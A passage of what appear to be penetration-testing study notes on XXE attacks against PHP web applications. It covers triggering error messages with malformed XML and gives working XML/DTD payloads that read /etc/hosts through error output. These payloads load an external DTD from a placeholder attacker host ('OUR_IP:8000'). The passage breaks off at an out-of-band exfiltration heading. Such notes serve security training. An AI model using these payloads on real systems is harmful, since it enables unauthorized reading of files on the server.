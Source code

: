 **Scenario: None of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output, but we can use web server displaying PHP runtime errors, to read the content of files from the displayed errors**

### Send malformed XML data

To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity.

![image.png](../Images/VWA_image16.png)

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.

### Create a DTD file that contains a payload

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## **Blind Data Exfiltration**

### **Out-of-band Data Exfiltration**

**Scenario:** we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

We will make the web application send a web request to our web server with the content of the file we are reading. 

**PAYLOAD**
